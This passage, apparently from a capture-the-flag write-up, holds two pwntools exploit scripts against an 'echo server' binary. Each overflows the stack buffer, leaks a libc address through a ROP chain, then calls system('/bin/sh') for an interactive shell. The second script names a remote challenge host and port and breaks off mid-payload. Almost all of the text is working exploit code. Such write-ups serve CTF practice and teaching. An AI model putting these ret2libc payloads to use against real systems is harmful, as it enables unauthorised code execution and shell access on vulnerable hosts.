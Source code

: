 ```python
# rop1
offset = 136-8
payload = '\0'*offset
payload += p64(elf.bss()+0x800)
# ret2text printf(got[printf])
payload += p64(prdi)+p64(elf.got['printf'])+p64(0x4006EE)+p64(main)
sla('how long is your name: ','1000')
sla('and what\'s you name? ',payload)
ru('hello ')
printf = uu64(rc(14))
info_addr('printf',printf)
libcbase = printf - libc.sym['printf']
system = libcbase + libc.sym['system']
binsh = libcbase  + libc.search("/bin/sh").next()
offset = 136-8
pl2 = '\0'*offset
pl2 += p64(elf.bss()+0x800)
pl2 += p64(ret)+p64(prdi)+p64(binsh)+p64(system)+p64(main)
debug()   
sl('1000')
sla('and what\'s you name? ',pl2)
# ru('hello ')
# log.warning('--------------')
p.interactive()
```
## echo server** | SOLVED | working : lzyddf**

```python
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
#context.arch = 'i386'/'amd64'
p = 0
if p == 0:
	sh = process('./echo_server')
else:
	sh = remote('183.129.189.60', 10005)
	
elf  = ELF('./echo_server')
main_addr = 0x4005c0
printf_plt = elf.symbols['printf']
read_got = elf.got['read']
format_s = 0x400875
pop_rsi_r15_ret = 0x400821
pop_rdi_ret = 0x400823
ret = 0x400824
sh.sendlineafter('name: ', '1000');
payload  = 'a'*136
payload += p64(pop_rdi_ret) + p64(format_s)
payload += p64(pop_rsi_r15_ret) + p64(read_got) + p64(read_got)
payload += p64(printf_plt) + p64(main_addr)
sh.sendafter('name? ', payload)
sh.recvuntil('@hello ')
read_addr = u64(sh.recv(6).ljust(8, '\x00'))
print('read_addr = ' + hex(read_addr))
libc = LibcSearcher('read', read_addr) #libc6_2.27-3ubuntu1_amd64
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
bin_sh_addr = libc_base + libc.dump('str_bin_sh')
sh.sendlineafter('name: ', '1000');
payload  = 'a'*136
```